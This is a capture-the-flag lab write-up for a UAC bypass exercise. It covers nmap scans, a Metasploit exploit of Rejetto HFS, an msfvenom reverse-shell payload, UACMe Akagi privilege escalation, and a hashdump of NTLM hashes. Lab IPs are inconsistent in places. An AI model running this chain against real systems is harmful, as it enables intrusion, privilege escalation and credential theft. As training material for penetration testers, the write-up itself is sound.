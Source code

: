 # 🔬UAC Bypass

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [UAC Bypass: UACMe](https://attackdefense.com/challengedetailsnoauth?cid=2208)
>
> * Target IP: `10.4.17.63`
> * Local IP: `10.10.16.2`
> * **UAC** bypass

### Enumeration

```bash
nmap 10.0.17.63
```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2024-07-05 12:55 IST
Nmap scan report for 10.0.17.63
Host is up (0.0019s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 1.58 seconds
```

* Determine the version information of the web server on port `80`

```bash
nmap -sV -p 80 10.0.17.63
```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2024-07-05 12:57 IST
Nmap scan report for 10.0.17.63
Host is up (0.0019s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.58 seconds
```

The version can be checked in a browser by opening the link

* `http://10.4.17.63/`

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
searchsploit hfs
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Exploitation

* Run `metasploit` without showing banner
* Set the target IP as **GLOBAL RHOSTS variable**

```bash
msfconsole -q
msf6 > setg RHOSTS 10.0.17.63
```

```bash
msf6 > search hfs
msf6 > use exploit/windows/http/rejetto_hfs_exec
# direct exploit since the RHOSTS has been set globally (can check with show options)
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Use `meterpreter` commands to gain more information about the target

<figure><img src="../../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Migrate current x86 `meterpreter` session to a x64 process

<figure><img src="../../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Get `admin` user privileges

<figure><img src="../../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> Privileges are very few which indicates that this user is not privileged at this point&#x20;

<figure><img src="../../../../../.gitbook/assets/image (22) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> Do not have permission to elevate privileges

* Verify if `admin` user is part of the local administrators group

```bash
meterpreter > shell
C:\Windows\system32>net user
C:\Windows\system32>net localgroup administrators
```

<figure><img src="../../../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> The admin user is a member of the Administrators group. However, it do not have the high privilege as of now.&#x20;



<figure><img src="../../../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

In order to run programs or tasks with elevated privileges, `UAC` bypass is necessary

### UAC Bypass & Privesc <a href="#uac-bypass-and-privesc" id="uac-bypass-and-privesc"></a>

* [UACMe Akagi](https://github.com/hfiref0x/UACME/tree/master/Source/Akagi) executable is already present on the attack machine

```bash
root@attackdefense:~# ls /root/Desktop/tools/UACME/
Akagi64.exe
```

<figure><img src="../../../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Generate a `meterpreter` payload with `msfvenom`

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.2 LPORT=1234 -f exe > backdoor.exe
```

<figure><img src="../../../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Set up a new `msfconsole` session and set up a listener with `multi/handler`, to receive the connection one the payload is executed on the target

* set the payload used with `msfvenom` - the `windows/meterpreter/reverse_tcp` one
* set the `LHOST` IP and `LPORT` of the attack machine, based on the `msfvenom` generated payload

```bash
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.4.2
set LPORT 1234
run
```

* The `reverse_tcp handler` is listening and ready to receive the connection from the malicious payload
* Head back in the `meterpreter` session already opened

```bash
cd C:\\
mkdir Temp
cd Temp
# or use
# cd C:\\Users\\admin\\AppData\\Local\\Temp

upload /root/backdoor.exe
upload /root/Desktop/tools/UACME/Akagi64.exe
```

<figure><img src="../../../../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* UAC would prevent running `backdoor.exe`
* Run `Akagi64.exe` executable with UACMe method 23

<figure><img src="../../../../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
.\Akagi64.exe 23 C:\Temp\backdoor.exe
```

* Elevated `meterpreter` session should be received on the listener

<figure><img src="../../../../../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
meterpreter > getuid
meterpreter > getprivs
```

The privileges amount has increased.

<figure><img src="../../../../../.gitbook/assets/image (18) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Migrate to a `NT AUTHORITY\SYSTEM` service.

```bash
meterpreter > ps
```

<figure><img src="../../../../../.gitbook/assets/image (19) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
meterpreter > ps
meterpreter > migrate 508 
```

<figure><img src="../../../../../.gitbook/assets/image (20) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> **Privileges successfully elevated** by bypassing UAC on a system running Windows 2012 R2.

<figure><img src="../../../../../.gitbook/assets/image (21) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
hashdump

admin:1012:aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:659c8124523a634e0ba68e64bb1d822f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

{% hint style="success" %}
Flag: `4d6583ed4cef81c2f2ac3c88fc5f3da6`
{% endhint %}

